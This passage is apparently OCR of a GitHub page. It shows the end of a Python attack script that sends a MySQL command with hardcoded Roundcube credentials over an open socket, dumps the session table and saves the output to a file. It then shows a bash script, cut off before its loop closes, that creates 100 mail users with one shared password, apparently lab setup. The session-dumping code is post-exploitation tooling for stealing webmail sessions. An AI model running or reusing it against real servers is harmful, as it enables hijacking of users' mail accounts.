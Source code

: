 ```python
    time.sleep(1)

  

    # Non-interactive MySQL command

    cmd = "mysql -u roundcube -pfearsoff.org -e \"SELECT * FROM session;\" roundcube\n"

    print("[•] Sending non-interactive MySQL command...")

    s.sendall(cmd.encode())

  

    time.sleep(4)  # wait for response

    output = recv_all(s, timeout=5)

  

    print("[✓] Received response:")

    #print(output)

  

    with open(SESSION_FILE, "w", encoding="utf-8") as f:

        f.write(output)

  

    print(f"[✓] Session data written to {SESSION_FILE}")

    s.close()

  

if __name__ == "__main__":

    main()
```

### create user
```bash
#!/bin/bash

PASSWORD='zaki'
MAILDIR='/var/mail'

for i in $(seq 1 100); do
    USER="user$i"

    useradd -m "$USER"

    # Set password non-interactively
    echo "$USER:$PASSWORD" | chpasswd

    # Create mailbox file if it doesn't exist
    touch "$MAILDIR/$USER"
    chown "$USER:mail" "$MAILDIR/$USER"

    echo "[+] Created $USER with password $PASSWORD"
```